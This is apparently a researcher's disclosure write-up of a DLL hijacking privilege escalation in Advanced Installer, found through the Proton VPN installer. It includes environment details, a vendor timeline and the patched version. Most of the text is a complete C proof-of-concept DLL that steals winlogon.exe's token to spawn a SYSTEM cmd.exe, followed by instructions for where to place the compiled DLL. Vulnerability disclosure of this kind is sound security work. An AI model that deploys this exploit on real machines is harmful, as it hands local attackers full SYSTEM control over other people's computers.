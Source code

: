 ```yaml
---
title : "Advaned Installer Local Privilege Escalation Vulnerability"
excerpt: "Advaned Installer Local Privilege Escalation Vulnerability"
toc: true

categories:
    - "0-day"
tags:
    - [Mitre]
---
```


## 0x01: Details

- Title: Advanced Installer Local Privilege Escalation Vulnerability
- CVE ID:
- Advisory Published: 2022/08/01
- Advisory URL: https://www.advancedinstaller.com/release-19.7.1.html#bugfixes
- Vendor URL : https://www.advancedinstaller.com

## 0x02: Test Environment

OS : Windows 10 Pro 64 bit 21H2 (build 19044.1826)
Advanced Installer: 19.7
Proton VPN: 2.0.0

## 0x03: Vulnerability details

A vulnerability existed in the Advanced Installer that loaded GdiPlus.dll, one of the WinSxS DLLs.

## 0x04: Technical description

I found this vulnerability through Proton VPN, so I will describe it as Proton VPN.
The Proton VPN installer runs with Administrator privileges and loads GdiPlus.dll from `%INSTALLER_LOCATION%\ProtonVPN_win_v2.0.0.exe.Local\x86_microsoft.windows.gdiplus_6595b64144ccf1df_1.1.19041.1706_none_d94bc52be10975a7`. If the `ProtonVPN_win_v2.0.0.exe.Local` directory does not exist, load the dll from `C:\Windows\WinSxS\x86_microsoft.windows.gdiplus_6595b64144ccf1df_1.1.19041.1706_none_d94bc52be10975a7`. At this time, the ProtonVPN_win_v2.0.0.exe.Local directory can be accessed by general users, so the attacker can load GdiPlus.dll with Administrator privileges and elevate it to SYSTEM privileges through a dll hijacking attack.
I discovered this vulnerability through [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon).
![Untitled](/files/Advaned%20Installer%20Local%20Privilege%20Escalation%20Vulnerability/Untitled.png)

## 0x05: Proof-of-Concept (PoC)

```c
#include <stdio.h>
#include <windows.h>
#include <Psapi.h>
#include <Tlhelp32.h>
#include <sddl.h>

#pragma comment (lib,"advapi32.lib")

int exploit() {
	DWORD lpidProcess[2048], lpcbNeeded, cProcesses;
	EnumProcesses(lpidProcess, sizeof(lpidProcess), &lpcbNeeded);
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	PROCESSENTRY32 p32;
	p32.dwSize = sizeof(PROCESSENTRY32);

	int processWinlogonPid;

	if (Process32First(hSnapshot, &p32)) {
		do {
			if (wcscmp(p32.szExeFile, L"winlogon.exe") == 0) {
				printf("[+] Located winlogon.exe by process name (PID %d)\n", p32.th32ProcessID);
				processWinlogonPid = p32.th32ProcessID;
				break;
			}
		} while (Process32Next(hSnapshot, &p32));

		CloseHandle(hSnapshot);
	}

	LUID luid;
	HANDLE currentProc = OpenProcess(PROCESS_ALL_ACCESS, 0, GetCurrentProcessId());

	if (currentProc) {
		HANDLE TokenHandle = NULL;
		BOOL hProcessToken = OpenProcessToken(currentProc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &TokenHandle);
		if (hProcessToken) {
			BOOL checkToken = LookupPrivilegeValue(NULL, L"SeDebugPrivilege", &luid);

			if (!checkToken) {
				printf("[+] Current process token already includes SeDebugPrivilege\n");
			}
			else {
				TOKEN_PRIVILEGES tokenPrivs;

				tokenPrivs.PrivilegeCount = 1;
				tokenPrivs.Privileges[0].Luid = luid;
				tokenPrivs.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

				BOOL adjustToken = AdjustTokenPrivileges(TokenHandle, FALSE, &tokenPrivs, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL);

				if (adjustToken != 0) {
					printf("[+] Added SeDebugPrivilege to the current process token\n");
				}
			}
			CloseHandle(TokenHandle);
		}
	}
	CloseHandle(currentProc);

	HANDLE hProcess = NULL;
	HANDLE TokenHandle = NULL;
	HANDLE NewToken = NULL;
	BOOL OpenToken;
	BOOL Impersonate;
	BOOL Duplicate;

	hProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, processWinlogonPid);

	if (!hProcess) {
		printf("[-] Failed to obtain a HANDLE to the target PID\n");
		return -1;
	}

	printf("[+] Obtained a HANDLE to the target PID\n");

	OpenToken = OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &TokenHandle);

	if (!OpenToken) {
		printf("[-] Failed to obtain a HANDLE to the target TOKEN %d\n", GetLastError());
	}

	printf("[+] Obtained a HANDLE to the target TOKEN\n");

	Impersonate = ImpersonateLoggedOnUser(TokenHandle);

	if (!Impersonate) {
		printf("[-] Failed to impersonate the TOKEN's user\n");
		return -1;
	}

	printf("[+] Impersonated the TOKEN's user\n");

	Duplicate = DuplicateTokenEx(TokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &NewToken);

	if (!Duplicate) {
		printf("[-] Failed to duplicate the target TOKEN\n");
		return -1;
	}

	printf("[+] Duplicated the target TOKEN\n");

	BOOL NewProcess;

	STARTUPINFO lpStartupInfo = { 0 };
	PROCESS_INFORMATION lpProcessInformation = { 0 };

	lpStartupInfo.cb = sizeof(lpStartupInfo);

	NewProcess = CreateProcessWithTokenW(NewToken, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &lpStartupInfo, &lpProcessInformation);

	if (!NewProcess) {
		printf("[-] Failed to create a SYSTEM process\n");
		return -1;
	}

	printf("[+] Created a SYSTEM process\n");

	CloseHandle(NewToken);
	CloseHandle(hProcess);
	CloseHandle(TokenHandle);

	return 0;
}

BOOL APIENTRY DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
    switch (fdwReason) {
        case DLL_PROCESS_ATTACH: {
						exploit();
            break;
        }

        case DLL_THREAD_ATTACH: {
            break;
        }

        case DLL_THREAD_DETACH: {
            break;
        }

        case DLL_PROCESS_DETACH: {
            break;
        }
    }
    return TRUE;
}
```

- After compiling the above code in x86 mode, place it as `%INSTALLER_LOCATION%\%INSTALLER%.Local\x86_microsoft.windows.gdiplus_6595b64144ccf1df_1.1.19041.1706_none_d94bc52be10975a7\GdiPlus.dll`.

## 0x06: Affected Products

This vulnerability affects the following product:

- Advanced Installer <= 19.7
- Proton VPN for Windows <= 2.0.0

## 0x07: TimeLine

2022/06/12 : First time contacted via email from Proton VPN(security@protonmail.com).
2022/07/20 : Proton VPN said this was an Advanced Installer vulnerability and asked the Advanced Installer if they could share the POC.
2022/08/01 : Received confirmation that a patch is being released (v19.7.1). Advanced Installer gave me the Advanced Installer Architect license key as a token of appreciation.

## 0x08: Reference

- [https://www.advancedinstaller.com/release-19.7.1.html#bugfixes](https://www.advancedinstaller.com/release-19.7.1.html#bugfixes)
